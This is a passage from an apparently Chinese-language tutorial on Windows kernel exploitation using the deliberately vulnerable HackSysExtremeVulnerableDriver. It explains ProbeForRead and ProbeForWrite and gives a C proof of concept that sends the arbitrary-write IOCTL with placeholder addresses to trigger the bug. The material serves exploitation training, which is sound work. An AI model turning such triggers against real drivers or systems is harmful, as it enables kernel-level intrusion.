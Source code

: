 越界则触发`STATUS_ACCESS_VIOLATION`异常：

[![](https://p1.ssl.qhimg.com/t01f320f7e9f2380b2c.png)](https://p1.ssl.qhimg.com/t01f320f7e9f2380b2c.png)

`ProbeForWrite`函数在边界对齐及地址范围校验方面与`ProbeForRead`类似，除此之外该函数会校验地址是否可写，可读，可访问：

[![](https://p2.ssl.qhimg.com/t01f1693c012fc3d061.png)](https://p2.ssl.qhimg.com/t01f1693c012fc3d061.png)

编写POC如下：

```
#include &lt;stdio.h&gt;
#include &lt;windows.h&gt;

#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE                               IOCTL(0x802)
typedef struct _WRITE_WHAT_WHERE
`{`
    PULONG_PTR What;
    PULONG_PTR Where;
`}` WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;

int main()
`{`
    HANDLE dev = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);
    if (dev == INVALID_HANDLE_VALUE)
    `{`
        printf("Failed!\n");
        system("pause");
        return -1;
    `}`
    printf("Done! Device Handle:0x%p\n", dev);
    PWRITE_WHAT_WHERE Buffer;
    Buffer = (WRITE_WHAT_WHERE*)malloc(sizeof(WRITE_WHAT_WHERE));
    ZeroMemory(Buffer, sizeof(WRITE_WHAT_WHERE));
    Buffer-&gt;Where=(PULONG_PTR)0x41414141;
    Buffer-&gt;What = (PULONG_PTR)0x42424242;

    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(dev, HEVD_IOCTL_ARBITRARY_WRITE, Buffer, sizeof(WRITE_WHAT_WHERE), NULL, 0, &amp;size_returned, NULL);
    CloseHandle(dev);
    system("pause");
    return 0;
`}`
```

触发漏洞：

[![](https://p1.ssl.qhimg.com/t01d8eb14157a5fcb5a.png)](https://p1.ssl.qhimg.com/t01d8eb14157a5fcb5a.png)
